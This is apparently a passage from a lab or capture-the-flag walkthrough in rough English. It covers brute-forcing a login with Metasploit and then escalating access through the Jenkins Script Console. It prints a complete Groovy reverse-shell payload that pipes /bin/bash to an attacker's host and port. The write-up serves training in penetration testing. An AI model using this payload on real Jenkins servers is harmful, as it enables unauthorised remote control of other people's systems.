 > Now we just write run & click clavier entre for brute forcing password !!!

![metasploit2 Picture](./Iternal-Images/pass-metasploit.png)

## Privilege Escalation

> we loging a Jenkins in browser .we have a Script Console format Groovy Script .
> - We can use Java Groovy to get the reverse shell using Groovy payload .
```java
    String host="ip-vpn";
    int port=1234;
    String cmd="/bin/bash";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- Remove everything from that file and paste the copied content and click on“ Run ”.

![java Picture](./Iternal-Images/groovy-revershell.png)
